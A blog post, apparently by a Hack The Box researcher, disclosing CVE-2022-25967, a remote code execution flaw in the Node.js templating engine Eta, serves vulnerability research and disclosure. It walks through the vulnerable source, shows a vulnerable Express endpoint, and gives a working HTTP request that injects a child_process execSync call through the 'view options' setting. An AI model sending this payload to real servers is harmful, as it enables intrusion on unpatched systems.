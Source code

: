 ```yaml
---
layout: post
title:  "Finding RCE in NodeJS templating engine 'Eta' - CVE-2022-25967"
date: 2023-04-01
categories: CTF
thumbnail: /img/eta.webp#center
tags: nodejs eta templating-engine remote-code-execution rce snyk cve-2022-25967 prototype-pollution, express, web
---
```


In preparation for the HTB University CTF 2021 Finals, my colleagues and I at Hack The Box discovered a Remote Code Execution vulnerability in the Node.js templating engine 'Eta'. The vulnerability was reported via Snyk and assigned [CVE-2022-25967](https://www.cve.org/CVERecord?id=CVE-2022-25967). This blog post covers a short technical write-up of this vulnerability.

Inspired by the following [GitHub Advisory](https://securitylab.github.com/advisories/GHSL-2021-021-tj-ejs/) about Remote code execution in [Ejs](https://www.npmjs.com/package/ejs), we decided to take a look at other NodeJS templating engine libraries. We found [Eta](https://www.npmjs.com/package/eta), which has about ~260k+ weekly downloads.

![](/img/2023-04-02-01-54-33.png)

As per their readme, Eta's syntax is very similar to EJS and shares the same file-handling logic. The issue discovered in Eta is also very similar, as Eta also allows template engine configuration options to be passed through Express render API as defined in the [file-handlers.ts](https://github.com/eta-dev/eta/blob/9c8e4263d3a559444a3881a85c1607bf344d0b28/src/file-handlers.ts#L219) file:

```js
// If there is a config object passed in explicitly, use it
if (typeof config === 'object') {
    renderConfig = getConfig((config as PartialConfig) || {}) as EtaConfigWithFilename
} else {
    // Otherwise, get the config from the data object
    // And then grab some config options from data.settings
    // Which is where Express sometimes stores them
    renderConfig = getConfig(data as PartialConfig) as EtaConfigWithFilename
    if (data.settings) {
        // Pull a few things from known locations
        if (data.settings.views) {
            renderConfig.views = data.settings.views
        }
        if (data.settings['view cache']) {
            renderConfig.cache = true
        }
        // Undocumented after Express 2, but still usable, esp. for
        // items that are unsafe to be passed along with data, like `root`
        const viewOpts = data.settings['view options']

        if (viewOpts) {
            copyProps(renderConfig, viewOpts)
        }
    }
}
```

The `renderConfig` object is utilized for template engine configuration by the `compileToString` function as defined in the [compile-string.ts](https://github.com/eta-dev/eta/blob/9c8e4263d3a559444a3881a85c1607bf344d0b28/src/compile-string.ts#L21) file:

```js
export default function compileToString(str: string, config: EtaConfig): string {
  const buffer: Array<AstObject> = Parse(str, config)

  let res =
    "var tR='',__l,__lP" +
    (config.include ? ',include=E.include.bind(E)' : '') +
    (config.includeFile ? ',includeFile=E.includeFile.bind(E)' : '') +
    '\nfunction layout(p,d){__l=p;__lP=d}\n' +
    (config.useWith ? 'with(' + config.varName + '||{}){' : '') +
    compileScope(buffer, config) +
    (config.includeFile
      ? 'if(__l)tR=' +
        (config.async ? 'await ' : '') +
        `includeFile(__l,Object.assign(${config.varName},{body:tR},__lP))\n`
      : config.include
      ? 'if(__l)tR=' +
        (config.async ? 'await ' : '') +
        `include(__l,Object.assign(${config.varName},{body:tR},__lP))\n`
      : '') +
    'if(cb){cb(null,tR)} return tR' +
    (config.useWith ? '}' : '')

  if (config.plugins) {
    for (let i = 0; i < config.plugins.length; i++) {
      const plugin = config.plugins[i]
      if (plugin.processFnString) {
        res = plugin.processFnString(res, config)
      }
    }
  }

  return res
}
```

By overwriting the `varName`, `include`, `includeFile`, and `useWith` variables, we can simplify the anonymous function generated by the [compileToString](https://github.com/eta-dev/eta/blob/9c8e4263d3a559444a3881a85c1607bf344d0b28/src/compile-string.ts#L21) function to inject arbitrary JavaScript code on `varName` for Remote Code Execution:

```js
{
    "varName":"INJECTED_JS_FUNCTION_CALL()",
    "include" : false,
    "includeFile": false,
    "useWith": true
}
```

The resultant anonymous function generated with the above configuration variables is as follows:

```js
(function anonymous(x=INJECTED_JS_FUNCTION_CALL(),E,cb
) {
var tR='',__l,__lP
function layout(p,d){__l=p;__lP=d}
with(x=INJECTED_JS_FUNCTION_CALL()||{}){tR+='template file content here'
if(cb){cb(null,tR)} return tR}
})
```

An attacker can leverage the issue provided a Server-Side Prototype Pollution exists or user-controlled data is supplied to the `settings` key in the data object in Express render API. A vulnerable Express endpoint may look like the following:

```js
router.post('/settings', (req, res) => {
    const userConfig = req.body;
    return res.render('settings.eta', {settings: userConfig});
});
```
The above endpoint can be exploited by supplying the following HTTP request to achieve RCE:

```http
POST /settings HTTP/1.1
Host: localhost:8001
Content-Type: application/json
Content-Length: 219

{
    "view options": {
        "varName": "x=process.mainModule.require('child_process').execSync('touch /tmp/test.txt')",
        "include" : false,
        "includeFile": false,
        "useWith": true
    }
}
```

Coincidentally, I later stumbled upon the blog post [Finding Prototype Pollution gadgets with CodeQL](https://jorgectf.github.io/blog/post/finding-prototype-pollution-gadgets-with-codeql/) by Jorgectf and found this vulnerability was also discovered with CodeQL as a Server-Side Prototype Pollution gadget vector.

A special kudos to [Makelaris](https://twitter.com/makelariss) and [Makelaris jr.](https://twitter.com/makelarisjr) from Hack The Box for their help in discovering this vulnerability.

<h2 id="references">References</h2>
<ul>
<li><a href="https://github.com/eta-dev/eta/commit/5651392462ee0ff19d77c8481081a99e5b9138dd"  target="_blank">eta-dev/eta@5651392</a></li>
<li><a href="https://github.com/eta-dev/eta/blob/9c8e4263d3a559444a3881a85c1607bf344d0b28/src/compile-string.ts#L21"  target="_blank">eta-dev/eta@<code class="language-plaintext highlighter-rouge">9c8e426</code>/src/compile-string.ts#L21</a></li>
<li><a href="https://github.com/eta-dev/eta/blob/9c8e4263d3a559444a3881a85c1607bf344d0b28/src/file-handlers.ts#L182"  target="_blank">eta-dev/eta@<code class="language-plaintext highlighter-rouge">9c8e426</code>/src/file-handlers.ts#L182</a></li>
<li><a href="https://security.snyk.io/vuln/SNYK-JS-ETA-2936803"  target="_blank">security.snyk.io/vuln/SNYK-JS-ETA-2936803</a></li>
</ul>

